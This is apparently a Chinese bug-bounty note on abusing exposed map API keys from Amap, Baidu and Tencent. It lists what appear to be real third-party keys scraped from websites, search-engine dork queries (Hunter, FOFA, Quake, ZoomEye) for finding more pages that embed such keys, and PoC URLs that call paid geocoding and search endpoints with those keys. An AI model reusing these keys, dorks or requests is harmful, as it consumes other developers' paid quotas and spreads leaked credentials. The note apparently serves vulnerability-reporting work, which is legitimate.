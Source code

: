 地图 API 接管漏洞会导致该 Key 被出售给其它开发者或恶意消耗 API;

将会导致地图加载异常，显示报错信息, 无法获取使用者的地理定位等.

## 1. 高德

### 1.1. 特征

```
https://restapi.amap.com/v3/geocode/regeo?key=82f7dba16fb54f5999f41e8be703502b
```

```
https://webapi.amap.com/maps?v=1.4.15&key=156728ffb66357b1f257ec8000468f91
```

HUNTER

```
web.body="https://restapi.amap.com/v3/geocode/regeo?"
web.body="https://webapi.amap.com/maps?"
```

FOFA

```
body="https://restapi.amap.com/v3/geocode/regeo?"
body="https://webapi.amap.com/maps?"
```

QUAKE

```
body:"https://restapi.amap.com/v3/geocode/regeo?"
body:"https://webapi.amap.com/maps?"
```

ZoomEye

```
http.body="https://restapi.amap.com/v3/geocode/regeo?"
http.body="https://webapi.amap.com/maps?"
```

### 1.2. PoC

```
https://restapi.amap.com/v3/geocode/regeo?key=82f7dba16fb54f5999f41e8be703502b&s=rsv3&location=31.434446,121.90816&callback=jsonp_258885_&platform=JS
```

## 2. 百度

### 1.1. 特征

```
https://api.map.baidu.com/api?v=1.0&&type=webgl&ak=SA1vncDqp8vNAVIn1WUGIQkE7G5cDdbP
```

```
https://api.map.baidu.com/api?type=webgl&v=1.0&ak=tAQtwUHGUDdlDKBzXOb5bIGTRV7B0wv0
```

```
http://api.map.baidu.com/api?key=Pu6dflqnQUgUWFGUQ1dzkBcDkGFEbbcj&v=1.0&services=true
```

```
https://api.map.baidu.com/api?v=2.0&ak=3pmX1uL2kYs76UzGeUS5nB01NwourpyB
```

HUNTER

```
web.body="https://api.map.baidu.com/api?"
```

FOFA

```
body="https://api.map.baidu.com/api?"
```

QUAKE

```
body:"https://api.map.baidu.com/api?"
```

ZoomEye

```
http.body="https://api.map.baidu.com/api?"
```

### 1.2. PoC

```
https://api.map.baidu.com/place/v2/search?query=ATM&tag=银行&region=上海&output=json&ak=SA1vncDqp8vNAVIn1WUGIQkE7G5cDdbP
```

## 3. 腾讯

### 2.1. 特征

```
https://map.qq.com/api/gljs?v=1.exp&key=DKCBZ-SYCCU-OZ2VP-2ES3Z-ZQHQ6-6FFW6
```

```
https://map.qq.com/api/js?v=2.exp&key=BSXBZ-XFPRK-RMDJR-A6N36-E6C3O-NRBC6&libraries=convertor,place,geometry
```

```
https://map.qq.com/api/js?v=2.exp&key=OYDBZ-ROWCQ-EF35D-2Z6E3-WUXR6-RVFQ7
```

```
https://map.qq.com/api/js?v=2.exp&libraries=place&key=225d6c323c15ed3391a890f834bc4533
```

HUNTER

```
web.body="https://map.qq.com/api/"
```

FOFA

```
body="https://map.qq.com/api/"
```

QUAKE

```
body:"https://map.qq.com/api/"
```

ZoomEye

```
http.body="https://map.qq.com/api/"
```

### 2.2. PoC

```
https://apis.map.qq.com/ws/place/v1/search?keyword=银行&boundary=nearby(31.2304,121.4737,1000)&key=BSXBZ-XFPRK-RMDJR-A6N36-E6C3O-NRBC6
```

---

- [“地图API后台配置错误”:挖SRC的新玩具？](https://www.freebuf.com/articles/web/360331.html)

